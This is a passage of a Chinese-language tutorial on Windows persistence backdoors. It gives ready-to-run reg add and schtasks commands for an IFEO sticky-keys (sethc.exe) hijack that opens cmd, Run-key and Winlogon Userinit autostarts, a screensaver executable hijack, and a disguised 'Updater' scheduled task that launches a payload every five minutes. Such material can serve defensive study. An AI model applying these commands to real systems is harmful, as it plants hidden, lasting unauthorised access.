     “映像劫持”，也被称为“IFEO”（Image File Execution Options），在WindowsNT架构的系统里，IFEO的本意是为一些在默认系统环境中运行时可能引发错误的程序执行体提供特殊的环境设定。当一个可执行程序位于IFEO的控制中时，它的内存分配则根据该程序的参数来设定，而WindowsN T架构的系统能通过这个注册表项使用与可执行程序文件名匹配的项目作为程序载入时的控制依据，最终得以设定一个程序的堆管理机制和一些辅助机制等。出于简化原因，IFEO使用忽略路径的方式来匹配它所要控制的程序文件名，所以程序无论放在哪个路径，只要名字没有变化，它就运行出问题。

    注册表位置：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\

    在此注册表位置添加项sethc.exe，添加debugger键的值为c:\windows\system32\cmd.exe

    ```cmd
        reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f
    ```

    此时点击五次shift键会打开cmd。

## 5. 注册表自启动后门

    1. 位置一:HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
        添加键test，值为后门程序路径。

        ```cmd
            REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test1 /t REG_SZ /d "C:\666.exe"
        ```

    2.位置二：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

    修改键Userinit的值，重启就会自动运行程序。
    `C:\Windows\system32\userinit.exe,cmd.exe`

## 6. 屏幕保护程序后门

    屏幕保护是Windows功能的一部分，使用户可以在一段时间不活动后放置屏幕消息或图形动画。Windows的此功能被威胁参与者滥用为持久性方法。这是因为屏幕保护程序是具有.scr文件扩展名的可执行文件，并通过scrnsave.scr实用程序执行。

    注册表位置：HKEY_CURRENT_USER\Control Panel\Desktop

    SCRNSAVE.EXE为默认的屏保程序，我们可将此键值设置为我们要利用的恶意程序。在本质上，.scr文件是可执行文件。
    ScreenSaveActive表示屏保状态，1为启动，0为关闭。
    ScreenSaverTimeout表示屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900(15分钟)。
    ScreenSaverIsSecure默认参数为0，标识不需要密码即可解锁。

    修改SCRASAVE.EXE的值为后门程序路径，等待屏保时间自动运行。
    ```cmd
        reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "c:\666.exe" /f
    ```

## 7. 计划任务后门

    schtasks命令设定计划自动启动后门程序。

    ```cmd
        schtasks /Create /tn Updater /tr c:\666.exe /sc minute /mo 5  #每5分钟自动执行666.exe
    ```

## 8. 服务自启动后门

